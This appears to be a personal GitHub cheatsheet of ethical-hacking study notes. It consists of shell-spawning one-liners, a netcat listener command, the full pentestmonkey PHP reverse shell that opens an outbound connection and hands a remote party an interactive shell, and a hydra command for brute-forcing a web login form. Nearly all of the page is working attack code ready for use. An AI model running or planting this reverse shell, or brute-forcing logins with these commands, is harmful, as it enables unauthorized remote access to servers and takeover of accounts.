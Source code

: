 <body>

# MyHackingCheatsheet
while I am studing ethical hacking I will add usefull commands and scripts
<h4>shell spawn</h4>
<ul>
    <li>python3 -c 'import pty; pty.spawn("/bin/bash")'</li>
    <li>echo os.system('/bin/bash')</li>
    <li>/bin/bash -i</li>
    <li>perl —e 'exec "/bin/bash";'</li>
    <li>perl: exec "/bin/bash";</li>
    <li>ruby: exec "/bin/bash"</li>
    <li>lua: os.execute('/bin/bash')</li>
</ul>

<h4>php reverse shell  script </h4>
<p>nc -lvnp 1234</p>
<pre><?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
    
    set_time_limit (0);
    $VERSION = "1.0";
    <b>$ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    </b>
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    
    //
    // Daemonise ourself if possible to avoid zombies later
    //
    
    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();
        
        if ($pid == -1) {
            printit("ERROR: Can't fork");
            exit(1);
        }
        
        if ($pid) {
            exit(0);  // Parent exits
        }
    
        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
            printit("Error: Can't setsid()");
            exit(1);
        }
    
        $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }
    
    // Change to a safe directory
    chdir("/");
    
    // Remove any umask we inherited
    umask(0);
    
    //
    // Do the reverse shell...
    //
    
    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }
    
    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );
    
    $process = proc_open($shell, $descriptorspec, $pipes);
    
    if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
    }
    
    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);
    
    printit("Successfully opened reverse shell to $ip:$port");
    
    while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
            break;
        }
    
        // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
            break;
        }
    
        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
            if ($debug) printit("SOCK READ");
            $input = fread($sock, $chunk_size);
            if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }
    
        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
            if ($debug) printit("STDOUT READ");
            $input = fread($pipes[1], $chunk_size);
            if ($debug) printit("STDOUT: $input");
            fwrite($sock, $input);
        }
    
        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
            if ($debug) printit("STDERR READ");
            $input = fread($pipes[2], $chunk_size);
            if ($debug) printit("STDERR: $input");
            fwrite($sock, $input);
        }
    }
    
    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);
    
    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
        if (!$daemon) {
            print "$string\n";
        }
    }
    
    ?> 
    </pre>
    <h4>hydra</h4>
    <p>hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V</p>
</body>
